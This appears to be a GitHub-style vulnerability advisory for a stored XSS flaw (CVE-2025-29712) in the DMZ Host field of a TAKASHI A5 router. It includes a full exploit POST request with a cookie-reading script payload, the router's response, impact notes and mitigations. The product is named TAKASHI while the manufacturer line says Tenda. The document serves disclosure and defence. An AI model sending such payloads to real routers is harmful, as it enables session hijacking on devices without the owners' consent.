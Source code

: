 # CVE-2025-29712 TAKASHI Wireless Instant Router and Repeater - XSS Vulnerability

## Overview
A stored cross-site scripting (XSS) vulnerability has been identified in the TAKASHI Wireless Instant Router and Repeater (Model A5) running firmware version **V5.07.38_AAL03** with hardware version **V3.0**. This vulnerability arises due to improper sanitization of user input in the `DMZ Host` IP address field.

## Affected Model
- **Model**: A5
- **Manufacturer**: Tenda 
- **Software Version**: V5.07.38_AAL03  
- **Hardware Version**: V3.0  

## Vulnerability Details
A cross-site scripting (XSS) vulnerability in Takashi Wireless Instant
Router and Repeater (Model A5) firmware v5.07.38_AAL03 with hardware
v3.0 allows attackers to execute arbitrary web scripts or HTML via
injecting a crafted payload into the DMZ Host parameter.

### Exploit Request
The following `POST` request demonstrates the XSS injection:

```
POST /goform/VirSerDMZ HTTP/1.1
Host: 192.168.2.1
Content-Length: 56
Cache-Control: max-age=0
Origin: http://192.168.2.1
DNT: 1
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/134.0.0.0 Safari/537.36 Edg/134.0.0.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://192.168.2.1/nat_dmz.asp
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9,nl;q=0.8
Cookie: admin:language=LOL
Connection: keep-alive

GO=nat_dmz.asp&dmzip=`</script><script>alert(document.cookie);</script>`
```

### Response
The request is processed successfully, redirecting the user back to the `nat_dmz.asp` page while storing the malicious script:

```
HTTP/1.0 302 Redirect
Server: GoAhead-Webs
Date: Thu Jan 01 00:53:41 1970
Pragma: no-cache
Cache-Control: no-cache
Content-Type: text/html
Location: http://192.168.2.1/nat_dmz.asp

<html>
<head></head>
<body>
    This document has moved to a new <span><a href="http://192.168.2.1/nat_dmz.asp">location</a></span>.<br>
    Please update your documents to reflect the new location.
</body>
</html>
```

## Impact
- Malicious JavaScript can be injected into the application.
- Users who visit the affected page will have their session cookies exposed.
- The attack could lead to session hijacking, phishing, or further exploitation.

## Mitigation
To mitigate this issue, the following steps should be taken:
1. **Server-side Input Validation**: Sanitize and validate user input before storing or reflecting it.
2. **Content Security Policy (CSP)**: Implement a strict CSP header to prevent inline script execution.
3. **Escaping Output**: Encode user input before rendering it in the browser.
4. **Disable Client-Side Validation Bypass**: Ensure all input validation occurs on the server-side in addition to any JavaScript validation.


## References
- [OWASP XSS Prevention Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html)
- [GoAhead Web Server](https://www.embedthis.com/goahead/)

## Disclaimer
This vulnerability report is for educational and research purposes only. The information provided should not be used for malicious activities. Always obtain proper authorization before testing security vulnerabilities on any system.

---

**Contributors**  
- William James Schleppegrell -> https://github.com/SteamPunk424
  
- Martyn Lodder -> https://github.com/rootofficial

- Charles Johnson -> https://github.com/lamentomori
